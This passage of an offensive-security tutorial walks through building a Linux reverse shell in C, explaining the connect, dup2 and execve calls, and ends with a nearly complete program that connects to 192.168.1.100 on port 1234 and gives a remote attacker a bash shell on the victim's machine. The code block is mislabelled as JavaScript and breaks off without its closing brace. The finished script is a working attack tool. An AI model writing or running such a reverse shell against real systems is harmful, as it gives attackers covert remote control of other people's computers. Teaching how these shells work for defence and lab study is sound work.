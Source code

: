 - connect (sockt, (struct sockaddr *) &revsockaddr,

In here connect system call is going to be used in conjunction with the socket to and the structure and storing all the values into the “revsockaddr” structure which define and create the beginning of the code. This connect system call helps to connect the socket using previously created socket structure called “revsockaddr”. Also using sizeof(); call from the standard library header we can specify the length of the socket.

- sizeof(revsockaddr); 

Using above call, can get the exact length of the “revsockaddr”. After all of this need to create descriptor. To do that we can use “dup2” command. Using “dup2”, can easily define the file descriptors. Dup2 command is essentially a system call that creates a copy of the file descriptor and this is going to be used for input & output. In here we use sockt as old file descriptor and the “0” for the new file descriptor. And second one also sockt as old file descriptor and “1” for the new file descriptor. And final one also sockt as old descriptor and “2” for new descriptor as below.

- dup2(sockt, 0);
- dup2(sockt, 1);
- dup2(sockt, 2);

finally need to create constant that help to store the command that attacker want to execute. First need to declare the data type character and the constant itself.

- char * const argv [] = {“/bin/bash”, NULL}

argv [] is like a one-dimensional array of strings that going to be storing and execute the command. In here executing “/bin/bash”. Therefore, attacker can get the standard reverse shell from the victim’s machine. Then use execve command to execute the program or commands.

- execve (“/bin/bash”, argv, NULL);

in above command specify the “/bin/bash” or SH whatever terminal attacker want, and specify argv command and NULL.

#Finalized reverse shell script

After completing all of the things mention in the previous section, attacker obtain the complete code that can be used to get reverse shell from the victim’s computer. In here reverse shell script wrote for get the reverse shell from Linux machine.

```javascript
#include <stdio.h> 
#include <sys/socket.h> 
#include <sys/types.h>  
#include <stdlib.h> 
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h> 

int main(void){

        int sockt; 
        int port = 1234; 
        struct sockaddr_in revsockaddr;

        sockt = socket(AF_INET, SOCK_STREAM,0);
        revsockaddr.sin_family = AF_INET;       
        revsockaddr.sin_port = htons(port);
        revsockaddr.sin_addr.s_addr = inet_addr("192.168.1.100");

        connect(sockt, (struct sockaddr *) &revsockaddr, 
        sizeof(revsockaddr));
        dup2(sockt, 0);
        dup2(sockt, 1);
        dup2(sockt, 2);

        char * const argv[] = {"/bin/bash", NULL};
        execve("/bin/bash", argv, NULL);
```